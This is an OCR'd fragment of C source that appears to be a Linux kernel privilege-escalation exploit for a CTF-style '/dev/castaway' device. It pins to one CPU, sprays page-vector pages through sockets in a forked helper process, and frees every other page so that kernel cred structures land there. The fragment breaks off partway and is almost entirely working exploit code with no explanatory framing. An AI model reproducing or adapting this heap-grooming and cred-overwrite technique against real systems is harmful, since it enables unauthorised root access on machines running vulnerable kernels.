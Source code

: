 ```c
{
    struct page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;

    /* create an isolate namespace*/
    unshare_setup();

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(0x1000, 1);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf("[x] invalid request: %d\n", req.cmd);
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}

int main(int aragc, char **argv, char **envp)
{
    cpu_set_t cpu_set;
    char th_stack[0x1000], buf[0x1000];

    /* to run the exp on the specific core only */
    CPU_ZERO(&cpu_set);
    CPU_SET(0, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    dev_fd = open("/dev/castaway", O_RDWR);
    if (dev_fd < 0) {
        err_exit("FAILED to open castaway device!");
    }

    /* use a new process for page spraying */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    if (!fork()) {
        spray_cmd_handler();
        exit(EXIT_SUCCESS);
    }

    /* make buddy's lower order clean, castaway_requesting from higher */
    puts("[*] spraying pgv pages...");
    for (int i = 0; i < PGV_PAGE_NUM; i++) {
        if(alloc_page(i) < 0) {
            printf("[x] failed at no.%d socket\n", i);
            err_exit("FAILED to spray pages via socket!");
        }
    }

    /* free pages for cred */
    puts("[*] freeing for cred pages...");
    for (int i = 1; i < PGV_PAGE_NUM; i += 2){
        free_page(i);
    }

```